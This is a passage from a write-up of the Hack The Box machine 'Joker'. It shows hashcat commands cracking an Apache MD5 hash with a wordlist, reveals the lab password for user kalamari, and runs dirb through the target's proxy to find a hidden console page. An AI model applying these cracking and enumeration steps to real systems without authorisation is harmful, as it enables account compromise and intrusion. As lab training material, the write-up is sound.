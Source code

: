 I run hashcat on my Windows machine directly, there are workarounds to get it to run in Kali but even then I don't believe you can passthru the host GPU to your VM. It's much easier to download hashcat and run the exe on windows.

Let's run hashcat, see if we can find the option for MD5(APR), and crack the hash.
```
C:\hashcat-3.5.0> .\hashcat64.exe --help | findstr apr
   1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR)            | HTTP, SMTP, LDAP Server

C:\hashcat-3.5.0> .\hashcat64.exe -m 1600 -a 0 -o crackedjoker .\jokerhash.txt .\rockyou.txt
hashcat (v3.5.0) starting...

...
Output Truncated
...

C:\hashcat-3.5.0> type .\crackedjoker
$apr1$zyzBxQYW$pL360IoLQ5Yum5SLTph.l0:ihateseafood
```

So we have the password for the user kalamari as `ihateseafood`. After browsing to localhost or `127.0.0.1` and inputting our newly found credentials we are presented with a webpage.

![SHORTY](/img/joker-shorty.png)

After fiddling with the webpage there doesn't seem to be much we can do with it. Let's see if we can find any other pages with dirb.

```
root@kali:~/htb/joker# dirb http://127.0.0.1 -p 10.10.10.21:3128 -P kalamari:ihateseafood -r

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Dec 29 15:27:52 2017
URL_BASE: http://127.0.0.1/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
PROXY: 10.10.10.21:3128
PROXY AUTHORIZATION: kalamari:ihateseafood
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612
---- Scanning URL: http://127.0.0.1/ ----
+ http://127.0.0.1/console (CODE:200|SIZE:1479)                                     
==> DIRECTORY: http://127.0.0.1/list/                       
-----------------
END_TIME: Fri Dec 29 15:33:08 2017
DOWNLOADED: 4612 - FOUND: 1
```
